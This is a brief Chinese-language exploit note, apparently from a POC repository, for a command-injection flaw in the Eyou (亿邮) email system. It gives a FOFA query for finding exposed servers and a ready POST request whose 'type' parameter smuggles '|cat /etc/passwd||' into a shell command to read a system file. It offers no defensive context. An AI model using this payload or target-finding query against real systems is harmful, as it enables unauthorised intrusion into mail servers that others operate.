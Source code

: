 ### 描述
fofa body="亿邮电子邮件系统"

### POC & 利用
```
POST /webadm/?q=moni_detail.do&action=gragh
type='|cat /etc/passwd||'
```

![640 (1).png](https://i.loli.net/2021/04/12/XjnYTAxwcvRMsDu.png)
